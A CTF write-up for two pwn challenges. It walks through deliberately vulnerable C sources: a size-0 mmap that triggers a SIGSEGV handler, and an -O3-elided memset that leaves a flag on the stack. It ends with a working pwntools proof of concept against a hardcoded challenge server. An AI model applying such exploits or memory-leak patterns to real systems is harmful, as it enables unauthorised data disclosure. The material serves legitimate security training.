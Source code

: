 # IEREA CTF 2025


## Challenges: Length Calculator & Stdio_studio
**Total Points:** 288 \
**Category:** Pwn

---

## TL;DR

[These challenges are about the importance of handling edge cases and various input signals.]

---

## Length Calculator:
- **chal** : ELF binary.
- **chal.c** : source file

```
// gcc chal.c -o chal

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <sys/mman.h>

void win(int sig) {
  puts("Well done!");
  system("cat ./flag*");
  exit(0);
}

int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);

  while (1) {
    unsigned int size = 100;
    
    printf("Enter size: ");
    scanf("%u%*c", &size);
    
    char *buf = mmap(NULL, size, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (!buf) {
      puts("Too large!");
      exit(1);
    }
    
    printf("Input: ");
    fgets(buf, size, stdin);
    buf[strcspn(buf, "\n")] = '\0';
    
    printf("Your string length: %d\n", strlen(buf));
  }
}
```


From the source code, we can that a `win()` function is given, and in order to call it, a SIGSEGV signal must be triggered: `signal(SIGSEGV, win);`

So, by simply giving `0` as size, the instruction `buf[strcspn(buf, "\n")] = '\0'; ` causes a SIGSEGV because `buf` has size 0, it tries to write `\0` into `buf[strcspn(buf, "\n")]`. 

![pOc](https://github.com/MohandAcherir/Writeups/blob/main/IEREA/pics/Screenshot%20from%202025-06-22%2001-01-28.png)


## Stdio_studio:
- **chal** : ELF binary.
- **chal.c** : source file

Here's `chal.c`:

```
// gcc chal.c -o chal -O3

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void load_flag() {
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
}

void echo(void) {
  unsigned int size;
  char *buf;

  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
}

int main() {
  setbuf(stdout, NULL);

  puts("1. Load flag");
  puts("2. Echo");

  while (1) {
    int cmd;

    printf("Enter command: ");

    scanf("%d%*c", &cmd);

    if (cmd == 1) load_flag();
    else if (cmd == 2) echo();
    else {
      puts("Invalid command :(");
      return 0;
    }
  }
}
```
First off, notice that the binary is compiled with the command `gcc chal.c -o chal -O3`, and keep it for later.

We've got 3 functions, `main()` and `echo()` and `load_flag()`.\
The main function queries us to either tap 1 to load the flag into memory, or 2 to read the stack.

### Analysis:
Let's start with `echo()`:
```
  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
  ```

Basically, this function asks for a size from the user, and then uses it to allocate stack memory with `alloca()`, and reads from stdin and displays the content of the buffer(...and beyond). \
**Note**: Alloca(size) is equivalent to a simple `sub rsp, sz`; so it's not like a heap allocation.

Let's move on to `load_flag()`:
```
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
```

This function reads the flag from *flag.txt*, stores it in a buffer, and then seemingly clearing it up at the end.

But wait, remember that the binary is compiled with the `-O3` option.\
The -O3 option in GCC enables the highest level of standard optimization. It includes all optimizations from -O2 plus additional optimizations. So in a nutshell, the line `memset(flag, 0, 128);` is opitimized out, hence, the flag still lives in memory.


### Exploitation strategy:
- Since calling `echo()`after `load_function()`, makes its stack frame live in - roughly - the same exact addresses as the latter, we can print the flag by iterating through 1 to 111 (for example) and try to make our input contiguous to the flag bytes, so that printf catches it and prints along with the data supplied.


**PoC:**

```

from pwn import *


for i in range(20, 111):
    #p = process('./chal')
    p = remote('35.187.219.36', 33335)
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'2')
    p.recv()
    p.sendline(str(i).encode())
    p.recv()
    p.shutdown('send')
    res = p.recvuntil(b"Enter command: ")
    if b'IERAE{' in res:
        print(res)

    p.close()

```

![pOc](https://github.com/MohandAcherir/Writeups/blob/main/IEREA/pics/Screenshot%20from%202025-06-22%2000-58-08.png)
